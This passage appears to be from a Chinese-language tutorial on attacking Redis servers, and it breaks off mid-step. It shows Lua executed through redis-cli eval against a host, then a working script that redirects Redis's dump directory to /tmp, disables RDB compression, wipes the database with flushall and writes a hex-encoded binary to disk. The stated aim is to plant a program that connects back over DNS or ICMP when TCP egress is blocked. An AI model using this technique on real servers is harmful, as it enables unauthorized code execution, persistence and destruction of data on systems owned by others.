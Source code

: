 详细利用步骤：

[https://www.lizenghai.com/archives/21742.html](https://www.lizenghai.com/archives/21742.html)

## 五、 执行lua脚本：
　redis 2.6以前的版本内置了lua脚本环境，在有连接redis服务器的权限下，可以利用lua执行系统命令。

本地建立一个lua脚本：

```
vim  hello.lua
local msg = "hello,hack!"
return msg
```
在客户端连接redis服务器并执行hello.lua
```
redis-cli eval "$(cat hello.lua)" 0 -h 192.168.1.154
解释:
cat hello.lua    读取hello.lua脚本的内容
0     是这个脚本需要访问的Redis 的键的数字号。我们简单的 “Hello Script" 不会访问任何键，所以我们使用0.
```
![图片](https://ae01.alicdn.com/kf/Uc5e1869c324d4ba1b371d56d2328bc99s.png)

## 六、 写二进制文件，利用dns、icmp等协议上线（tcp协议不能出网）
写二进制文件跟前边有所不同，原因在于使用RDB方式备份redis数据库是默认情况下会对文件进行压缩，上传的二进制文件也会被压缩，而且文件前后存在脏数据，因此需要将默认压缩关闭，并且通过计划任务调用python清洗脏数据。

1、创建一个lua脚本，其内容如下：

```
local function hex2bin(hexstr)
    local str = ""
    for i = 1, string.len(hexstr) - 1, 2 do
        local doublebytestr = string.sub(hexstr, i, i+1);
        local n = tonumber(doublebytestr, 16);
        if 0 == n then
            str = str .. '\00'
        else
            str = str .. string.format("%c", n)
        end
    end
    return str
end
local dir = redis.call('config','get','dir')
redis.call('config','set','dir','/tmp/')
local dbfilename = redis.call('config','get','dbfilename')
redis.call('config','set','dbfilename','t')
local rdbcompress = redis.call('config','get','rdbcompression')
redis.call('config','set','rdbcompression','no')
redis.call('flushall')
local data = '1a2b3c4d5e6f1223344556677890aa'
redis.call('set','data',hex2bin('0a7c7c7c'..data..'7c7c7c0a'))
local rst = {}
rst[1] = 'server default config'
rst[2] = 'dir:'..dir[2]
rst[3] = 'dbfilename:'..dbfilename[2]
rst[4] = 'rdbcompression:'..rdbcompress[2]
return rst
```
变量data保存的是程序的16进制编码
2、利用redis执行该lua脚本
